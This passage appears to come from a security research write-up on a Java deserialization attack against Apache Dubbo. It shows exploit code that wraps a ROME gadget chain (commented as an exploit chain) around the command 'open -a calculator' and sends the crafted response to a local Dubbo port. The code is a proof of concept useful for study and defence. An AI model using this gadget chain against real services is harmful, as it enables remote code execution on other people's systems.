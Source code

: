 ```plain
        Object exp = getThrowablePayload("open -a calculator"); // Rome toString 利用链
        out.writeByte(RESPONSE_WITH_EXCEPTION);
        out.writeObject(exp);

        out.flushBuffer();

        Bytes.int2bytes(nativeJavaBoos.size(), header, 12);
        boos.write(header);
        boos.write(nativeJavaBoos.toByteArray());

        byte[] responseData = boos.toByteArray();

        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(responseData);
        outputStream.flush();
        outputStream.close();
    }

    protected static Object getThrowablePayload(String command) throws Exception {
        Object o = Gadgets.createTemplatesImpl(command);
        ObjectBean delegate = new ObjectBean(Templates.class, o);

        return delegate;
    }
```

[![](assets/1703064279-1411b2a41ea6711c1506f36b5888e332.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219144349-f72db62a-9e39-1.png)
